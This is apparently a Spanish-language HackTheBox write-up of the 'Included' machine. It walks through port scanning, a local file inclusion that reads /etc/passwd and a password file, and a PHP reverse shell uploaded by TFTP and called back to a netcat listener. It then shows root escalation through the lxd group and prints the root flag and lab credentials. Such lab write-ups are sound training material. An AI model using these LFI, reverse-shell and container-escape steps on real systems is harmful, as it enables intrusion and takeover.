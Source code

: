 # Included

Plataforma: HackTheBox
OS: Linux
Level: Very Easy
Status: Done
Complete: Yes
Created time: 10 de enero de 2025 23:37
IP: 10.129.50.109

## Recopilación de información

<aside>
💡

</aside>

### **Escaneo de puertos**

Comenzamos con un escaneo para identificar que puertos están abiertos.

---

```bash
❯ sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.50.109 -oG allports

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

❯ sudo nmap -sU 10.129.50.109
PORT   STATE SERVICE REASON
69/udp open|filtered  tftp
```

### **Enumeración de servicios**

Una vez listado los puertos accesibles, procederemos a realizar la enumeración de servicios para su posterior identificación de vulnerabilidades.

---

```bash
❯ sudo nmap -p80 -sCV 10.129.50.109 -oN targeted
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Site doesnt have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.50.109/?file=home.php
|_http-server-header: Apache/2.4.29 (Ubuntu)

sudo nmap -p80 --script=http-enum 10.129.50.109
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 23:52 CET
Nmap scan report for 10.129.50.109
Host is up (0.086s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
```

- **Identificación de vulnerabilidades**
    - 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

- **Enumeración Web**
    
    ![image.png](<imagenes/image 89.png>)
    
    Whatweb
    
    ```sql
     whatweb 10.129.50.109
    http://10.129.50.109 [302 Found] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.50.109], RedirectLocation[http://10.129.50.109/index.php?file=home.php]
    http://10.129.50.109/index.php?file=home.php [301 Moved Permanently] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.50.109], RedirectLocation[http://10.129.50.109/?file=home.php], Title[301 Moved Permanently]
    http://10.129.50.109/?file=home.php [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.129.50.109]
    ```
    
    Al ver la web, observamos en el navegador:
    
    ```sql
    http://10.129.50.109/?file=home.php#
    ```
    
    Provamos un LFI
    
    ```html
    http://10.129.50.109/?file=../../../../../etc/passwd
    
    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin syslog:x:102:106::/home/syslog:/usr/sbin/nologin messagebus:x:103:107::/nonexistent:/usr/sbin/nologin _apt:x:104:65534::/nonexistent:/usr/sbin/nologin lxd:x:105:65534::/var/lib/lxd/:/bin/false uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin pollinate:x:109:1::/var/cache/pollinate:/bin/false mike:x:1000:1000:mike:/home/mike:/bin/bash tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin 
    ```
    
    Buscamos en el fichero algun usuario valido:
    
    ```html
    cat passwd | grep /bin/bash:
    
    mike:x:1000:1000:mike:/home/mike:/bin/bash
    ```
    
    Usuario : mike
    
    La pregunta de HTB nos pregunta que fichero de configuración del servidor web nos permite hacer un movimiento lateral.
    
    Revisamos los archivos y probamos a listar el .htpasswd 
    
    ```html
    mike:Sheffield19 
    ```
    

## Explotación

<aside>
💡

</aside>

### Explotación 1

Una vez tenemos las credenciales de un usuario, podemos probar a conectarnos por tftp y subier una rever shell

```bash
# Copiamos la rever shell en el mismo directorio que ejecutamos tftp (shell.php)

tftp 10.129.50.109
put shell.php
exit
```

Como sabemos que el directorio por defecto de tftp es /var/lib/tftpboot, ejecutamos la rever desde alli:

```html
# Maquina atacanta
nc -lvnp 4444

❯ curl 'http://10.129.50.109/?file=/var/lib/tftpboot/shell.php'

Obtenemos rever shell:

www-data@included:/$ su mike

# Migramos a usuario mike con las credenciales anteriores

mike@included:/$
```

## Explotación posterior

### Escalada de privilegios

Una vez como usuario mike

```bash
mike@included:/$ id
uid=1000(mike) gid=1000(mike) groups=1000(mike),108(lxd)
mike@included:/$ groups
mike lxd
```

Nos encontramos dentro de nun contenedor LXD :

LXD is a management API for dealing with LXC containers on Linux systems. It will
perform tasks for any members of the local lxd group. It does not make an effort to
match the permissions of the calling user to the function it is asked to perform.

Seguimos los pasos del writeup

Instalamos GO

```bash
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
```

Clonams la distro LXC Distribution Builder

```bash
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
```

Descargamos ALpine YAML file

```bash
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-incus alpine.yaml -o image.release=3.18

❯ ls
 test   alpine.yaml   incus.tar.xz   rootfs.squashfs

❯ python3 -m http.server 8000
```

En la maquina victima

```bash
mike@included:~$ wget http://10.10.16.103:8000/incus.tar.xz
mike@included:~$ wget http://10.10.16.103:8000/rootfs.squashfs

mike@included:~$ lxc image import incus.tar.xz rootfs.squashfs --alias alpine

Image imported with fingerprint: e355934fd3991d51b0f31fcb1c8f986c464fbec5a577f83
mike@included:~$ lxc image list
+--------+--------------+--------+-----------------------------------------+--------+--------+-------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               |  ARCH  |  SIZE  |          UPLOAD DATE          |
+--------+--------------+--------+-----------------------------------------+--------+--------+-------------------------------+
| alpine | e355934fd399 | no     | Alpinelinux 3.18 x86_64 (20250111_0008) | x86_64 | 2.95MB | Jan 11, 2025 at 12:15am (UTC) |
+--------+--------------+--------+-----------------------------------------+--------+--------+-------------------------------+
mike@included:~$ lxc init alpine privesc -c security.privileged=true
Creating privesc
<st-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
mike@included:~$ lxc start privesc
mike@included:~$ lxc exec privesc /bin/sh
~ # whoami
root
~ # cd /mnt/root
/mnt/root # ls
bin             initrd.img.old  proc            tmp
boot            lib             root            usr
cdrom           lib64           run             var
dev             lost+found      sbin            vmlinuz
etc             media           snap            vmlinuz.old
home            mnt             srv
initrd.img      opt             sys
/mnt/root # cd root/
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
c693d9c7499d9f572ee375d4c14c7bcf
```

Flag : c693d9c7499d9f572ee375d4c14c7bcf

## Conclusión

<aside>
💡 Maquina resuelta con Writteup, ya que no conocia la explotacion de LXD

</aside>